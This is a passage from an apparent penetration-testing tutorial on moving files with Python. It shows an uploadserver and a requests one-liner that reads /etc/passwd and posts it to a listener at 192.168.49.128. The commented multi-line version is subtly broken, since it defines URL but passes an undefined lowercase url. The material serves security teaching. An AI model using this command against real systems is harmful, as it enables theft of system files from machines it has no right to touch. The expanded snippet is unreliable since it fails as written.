 ----

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 `requests` module  allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 `uploadserver`.

#### Starting the Python uploadserver Module

```bash
python3 -m uploadserver 
```

#### Uploading a File Using a Python One-liner

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Let's divide this one-liner into multiple lines to understand each piece better.
```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```